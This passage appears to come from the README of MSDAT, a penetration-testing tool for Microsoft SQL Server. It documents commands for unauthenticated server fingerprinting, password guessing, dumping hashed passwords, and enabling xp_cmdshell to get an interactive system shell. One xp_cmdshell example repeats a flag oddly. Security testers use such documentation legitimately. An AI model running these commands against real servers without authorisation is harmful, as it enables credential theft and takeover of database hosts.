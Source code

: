 In each module, you can define the charset to use with the *--charset* option.

*mssqlinfo* module
---

To get technical information about a remote MSSQL server without to be authenticated:
```bash
./msdat.py mssqlinfo -s $SERVER -p $PORT --get-max-info
```

This module uses *__TDS protocol__* and *__SQL browser Server__* to get information.

*passwordguesser* module
---

This module allows you to search valid credentials :
```bash
./msdat.py passwordguesser -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --force-retry --search
```

*--force-retry* option allows to test multiple passwords for each user without ask you

You can specify your own account file with the *--accounts-file* option:
```bash
./msdat.py passwordguesser -s $SERVER -p $PORT --search --accounts-file accounts.txt --force-retry
```

*passwordstealer* module
---

To dump hashed passwords :
```bash
./msdat.py passwordstealer -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --dump --save-to-file test.txt
```

This modules has been tested on SQL Server 2000, 2005, 2008 and 2014.

*xpcmdshell* module
---

To execute system commands thanks to *xp_cmdshell* ([https://msdn.microsoft.com/en-us/library/ms190693.aspx](https://msdn.microsoft.com/en-us/library/ms190693.aspx)):
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
```

This previous command give you an interactive shell on the remote database server.

If *xp_cmdshell* is not enabled, the *--enable-xpcmdshell* can be used in this module to activate it:
```bash
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

The *--enable-xpcmdshell* option enables *xp_cmdshell* if it is not enabled (not enabled by default).
